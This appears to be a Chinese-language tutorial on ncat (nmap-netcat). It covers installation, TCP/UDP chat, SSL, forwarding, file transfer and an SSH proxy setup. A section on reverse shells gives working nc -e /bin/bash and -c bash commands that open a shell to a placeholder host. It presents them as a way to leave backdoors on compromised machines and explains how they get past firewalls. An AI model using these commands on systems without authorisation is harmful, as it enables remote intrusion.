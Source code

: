 ## nmap-netcat(nc)

nc 是由 C 编写的非常强悍的网络工具，`nc` 主要有 4 个版本，gnu nc （2004 年停止维护，也叫 nc traditional）， openbsd nc（重写了 gnu nc，在正常维护），nmap-netcat（也叫 ncat，由 nmap 重写 nc traditional，被称为 21 世纪的 netcat，也是功能最多的 nc）。

下面我介绍的就是 nmap-netcat。

## 安装

https://nmap.org/download ，ncat 集成在 nmap 中，可以通过安装 nmap 获取 ncat 。

### Centos / RedHat

```zsh
yum install nc
```

名字就是 nc，但是安装的时候能看到安装的是 nmap-netcat。

### Archlinux

```zsh
sudo pacman -S nmap
```

archlinux 通过装 nmap 会附带上 ncat（即 nc）。

## 功能介绍

### 端口扫描

`ncat` 没有端口扫描（但是 openbsd nc 有），谁让它是由 nmap.org 重写的呢，`nmap` 本身就可以说是命令行工具中的端口扫描这块做的最好的，所以集成在 `nmap` 中的 `ncat` 没有必要还带端口扫描功能，端口扫描直接用 nmap。

### TCP/UDP 通信

```zsh
# -l 表示监听，-p 指定端口，-v 表示会输出详细信息(-vv, -vvv 可以更详细)
# 默认是监听 tcp 。
ncat -lvp 1589
```

```zsh
# 唯一跟上面不同的就是这次监听的是 udp 。
ncat -lvup 1589
```

可以按 [mkcert](https://m4n5ter.github.io/linux/mkcert/mkcert.html) 生成自签证书。

```zsh
# 使用 ssl 来加密通信（否则是明文的，统一网络的人可以轻松嗅探到传输内容）
# --ssl-key，--ssl-cert 可以手动指定证书，--ssl 是生成并使用一个临时证书
ncat --ssl -lvp 1589
```

```zsh
# 如果监听端使用了 --ssl 那么客户端也需要。
 ncat --ssl -nv <IP Address> 1589
```

成功建立通信后可以直接在命令行输入字符来进行通信，会像聊天一样。

### 流量转发

流量转发可以用很多姿势，这里我用一个比较容易理解的姿势：

```zsh
# 目标机器
nc -lvvp 1665
# 中间负责转发的机器。-c 表示连接后直接用 sh 执行 -c 的内容。
# 这里是表示连接到达中间服务器后，中间服务器再连接目标服务器，从而实现流量转发
nc -lvvp 1589 -c 'nc -nv <目标机器 IP> <端口>'
# 客户端
nc -nv <中间机器 IP> <中间机器端口>
```

这样操作后，当客户端执行时，流量走向为：

```
客户端 -> 中间机器 IP:PORT -> 目标机器 IP:PORT
```

### 发送文件

既然都能通信了，那么发文件也是理所应当的，基本传文件本质也是流量传输。

```zsh
# 提供文件的机器，这样表示建立连接后把 temp.txt 的内容发送过去
nc -lvvp 1665 < temp.txt
# 需要获取文件的机器，这样与目标建立连接后，把它发过来的内容重定向到一个文件中
nc -nv <IP> <PORT> > out.txt
```

方向换一下也是同理：

```zsh
# 接收文件的机器
nc -lvvp 1665 > out.txt
# 发送文件的机器
nc -nv <IP> <PORT> < temp.txt
```

### 反弹 Shell

这个一般用于渗透时留后门，主要是利用 `nc` 的 `-c` 和 `-e` 。

```zsh
# 让客户端发送自己的 shell 给 <IP> <PORT>
# 客户端，这样 <IP> <PORT> 被监听时就会拿到客户端的 shell
# 后续 <IP> <PORT> 要再转发还是什么都可以自由操作
nc -nv <IP> <PORT> -e /bin/bash
-or
nc -nv <IP> <PORT> -c bash
```

```zsh
# 客户端开启一个端口，在这个端口上直接暴露自己的 shell
nc -lp 6666 -e /bin/bash
```

如果用于渗透，肉鸡一般是内网环境，所以都是用的第一种，主动发送 shell 给攻击者。第二种需要攻击者能访问到肉鸡的 ip:port 才行。加上一般都有防火墙阻拦，肉鸡的入站流量可能会被防火墙拦截，但是防火墙一般不会对出站流量有限制，这也是第一种方式的用的比较多的原因。

如果攻击者没有能让肉鸡访问到的 IP，一般通过内网穿透即可解决。

### SSH 代理

~/.ssh/config

```zsh
Host github.com
  ProxyCommand ncat --proxy 127.0.0.1:10808 --proxy-type socks5  %h %p
```

这样对 github 仓库进行 `git pull` `git push` 这样的操作都会走代理。

  `--proxy` 和 `--proxy-type` 可以让 `ncat` 摇身一变为一个代理工具。

### `--allow` / `--allowfile`

限制可以连接到 `ncat`（`nc`） 的 hosts，可以指定一些 IP，来做到只允许指定目标连接。

### `--deny` / `--denyfile`

与上面的相反，它是拒绝。



## 更多功能请自行探索

`ncat` 提供了许多功能，这些功能可以相互组合，或者配合其它东西来使用，能玩出的花样是非常多的。
